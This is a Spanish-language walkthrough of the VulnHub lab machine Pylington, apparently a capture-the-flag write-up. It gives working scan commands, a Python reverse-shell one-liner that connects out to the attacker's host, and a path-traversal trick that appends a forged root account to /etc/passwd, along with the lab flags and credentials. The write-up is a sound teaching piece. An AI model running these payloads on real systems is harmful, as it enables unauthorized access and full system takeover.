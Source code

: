 ```yaml
---
icon: flag
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# PYLINGTON VulnHub

### Escaneo de puertos

```shell
nmap -p- --min-rate 5000 -sS <IP>
```

Info:

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-27 12:13 EDT
Nmap scan report for 192.168.5.146
Host is up (0.0011s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.5 (protocol 2.0)
| ssh-hostkey: 
|   3072 bf:ba:23:4e:69:37:69:9f:23:ae:21:35:98:4d:39:fa (RSA)
|   256 ed:95:53:52:ef:70:1f:c0:0e:3c:d8:be:35:fc:3a:93 (ECDSA)
|_  256 2d:b8:b0:88:52:83:7b:00:47:31:a4:76:2b:3d:7d:28 (ED25519)
80/tcp open  http    Apache httpd 2.4.46 ((Unix) mod_wsgi/4.7.1 Python/3.9)
|_http-generator: Jekyll v4.1.1
|_http-server-header: Apache/2.4.46 (Unix) mod_wsgi/4.7.1 Python/3.9
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Pylington Cloud | The best way to run Python.
| http-robots.txt: 3 disallowed entries 
|_/register /login /zbir7mn240soxhicso2z
MAC Address: 00:0C:29:5E:53:7E (VMware)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.8
Network Distance: 1 hop

TRACEROUTE
HOP RTT     ADDRESS
1   1.07 ms 192.168.5.146

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.11 seconds
```

### Gobuster

```shell
gobuster dir -u http://<IP>/ -w <WORDLIST> -x php,html,txt -t 50 -k -r
```

Info:

```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.5.146/
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              txt,php,html
[+] Follow Redirect:         true
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htpasswd.html       (Status: 403) [Size: 993]
/.htaccess            (Status: 403) [Size: 993]
/.htpasswd.php        (Status: 403) [Size: 993]
/.htpasswd.txt        (Status: 403) [Size: 993]
/.htaccess.txt        (Status: 403) [Size: 993]
/.htpasswd            (Status: 403) [Size: 993]
/.htaccess.php        (Status: 403) [Size: 993]
/.htaccess.html       (Status: 403) [Size: 993]
/404.html             (Status: 200) [Size: 3305]
/assets               (Status: 200) [Size: 1536]
/favicon.ico          (Status: 200) [Size: 15406]
/index.html           (Status: 200) [Size: 4065]
/login                (Status: 200) [Size: 3475]
/register             (Status: 200) [Size: 3149]
/robots.txt           (Status: 200) [Size: 83]
/robots.txt           (Status: 200) [Size: 83]
/~bin                 (Status: 403) [Size: 993]
/~root                (Status: 403) [Size: 993]
/~mail                (Status: 403) [Size: 993]
/~ftp                 (Status: 403) [Size: 993]
/~nobody              (Status: 403) [Size: 993]
Progress: 81876 / 81880 (100.00%)
===============================================================
Finished
===============================================================
```

Por lo que podemos ver hay una `/robots.txt/` y si nos metemos dentro encontraremos lo siguiente...

```
User-agent: *
Disallow: /register
Disallow: /login
Disallow: /zbir7mn240soxhicso2z
```

Si nos vamos a la siguiente `URL` llamada `/zbir7mn240soxhicso2z` veremos lo siguiente...

```
Username: steve

Password: bvbkukHAeVxtjjVH
```

Nos dan las credenciales de un usuario llamado `steve` por lo que nos logeamos en `/login/` y cuando metamos esas credenciales, nos pondra un mensaje de bienvenida pinchamos en ese `Welcome back! Steve` y nos redirigira a la `URL` llamada `n8pji3yeaccqvek2uzfc` donde se encontrara por lo que parece una especie de `Output` para enviar comandos mediante `python`...

Si en el `Program` metemos lo siguiente...

```python
i = input("")
exec(i)
```

Y en el `Standard Input` metemos lo siguiente...

```python
import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<IP>",<PORT>));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")
```

Lo rellenamos acorde a nuestras necesidades y estando a la escucha...

```shell
nc -lvnp <PORT>
```

Le damos a `run` una vez ejecutado nos creara una `shell` con el servidor...

Si nos vamos a `/home/py/` encontraremos muchas cosas pero entre ellas un minijuego llamado `typing` por lo que haremos lo siguiente...

```shell
./typing
```

Esto iniciara el minijuego y veremos lo siguiente...

```
Let's play a game! If you can type the sentence below, then I'll tell you my password.

the quick brown fox jumps over the lazy dog
```

Por lo que tendremos que responder con la siguiente respuesta...

```
the quick brown fox jumps over the lazy dog
```

Una vez hecho eso nos mostrara la contraseña del usuario `py`...

```
User = py
Password = 54ezhCGaJV
```

Nos conectaremos por `ssh`...

```shell
ssh py@192.168.5.146
```

Metemos la `passeord` y ya estariamos dentro, leemos la flag...

> user.txt (flag1)

```
ee11cbb19052e40b07aac0ca060c23ee
```

Por lo que podremos ver hay un archivo llamado `backup` en una carpeta `secreta` lo podemos ejecutar como `root` de normal, por lo que haremos lo siguiente...

En nuestro `host` generaremos una contraseña para el `passwd`...

```shell
openssl passwd -1 -salt <username> <password>
```

Info:

En mi caso con lo que le implemente me salio esto...

```
$1$diseo$tBqyKr.3ZHUYVzTIqyJg0/
```

Dentro del servidor victima hacemos lo siguiente...

```shell
/home/py/secret_stuff/backup
```

```
Enter a line of text to back up: <USERNAME>:<OPENSSL_GENERATE>:0:0:/root:/bin/zsh

Enter a file to append the text to (must be inside the /srv/backups directory): /srv/backups/../../../../etc/passwd
```

Una vez hecho esto haremos lo siguiente...

```shell
su <USERNAME> 
```

Nos cambiamos al usuario que agregamos al `passwd` y con la contraseña que generamos tambien, por lo que ya seriamos `root`...

Leemos la flag...

> root.txt (flag2)

```
63a9f0ea7bb98050796b649e85481845
```

